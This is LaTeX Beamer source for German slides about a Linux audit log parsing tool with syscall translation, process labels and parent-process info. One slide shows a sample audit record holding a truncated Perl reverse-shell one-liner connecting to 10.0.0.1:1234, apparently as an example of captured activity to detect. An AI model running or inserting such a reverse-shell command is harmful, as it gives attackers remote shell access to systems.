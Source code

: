 \documentclass[xcolor={dvipsnames},aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]{So kann's aussehen}
\begin{semiverbatim}
     "{}nametype"{}:"{}NORMAL"{},"{}cap_fp"{}:"{}0x0"{},"{}cap_fi"{}:"{}0x0"{},"{}cap_fe"{}:0,"{}cap_fver"{}:"{}0x0"{},"{}cap_frootid"{}:"{}0"{}\}],
 "{}PROCTITLE"{}:\{"{}ARGV"{}:["{}{\color{orange}perl}"{},"{}{\color{orange}-e}"{},
   "{}use Socket;\$i=\textbackslash"{}{\color{red}10.0.0.1}\textbackslash"{};\$p={\color{red}1234};socket(S,PF_INET,SOCK_STREAM,getprotobyname(\textbackslash"{}tcp\textbackslash"{}));if(connect(S,sockaddr_in(\$p,{\color{blue}inet_at}"{}]\},
 "{}PARENT_INFO"{}:{"{}ARGV"{}:["{}bash"{}],"{}launch_time"{}:1626611323.973,"{}ppid"{}:721539}\}
\end{semiverbatim}

\end{frame}

\begin{frame}[fragile]{Performance}
  
\end{frame}

\begin{frame}{Nachtrag / Erkenntnisse aus der Entwicklung}
  Zusätzliche Features
  \begin{itemize}
  \item Eigene Übersetzung von Syscalls, UIDs, GIDs, SOCKADDR-Strukturen, etc.
  \item Bessere Performance dank Parser-Kombinator-Library \texttt{nom}
  \item \texttt{PARENT\_INFO}
  \item Labels zum Markieren aller Aktionen eines Prozesses und/oder seiner Kindprozesse
  \item Labels auf Basis des Executable (Regexp-Match)
  \end{itemize}
  \hrulefill{}
  \vspace{1ex}
  \begin{itemize}
  \item \emph{Linux-Audit}-Textformat erfordert mehr Sonderbehandlung im Parser als erwartet
  \item Unterstützung von \emph{SELinux}-Policies ist fehlerträchtig
  \end{itemize}
\end{frame}

\section{Ausblick}
\end{document}
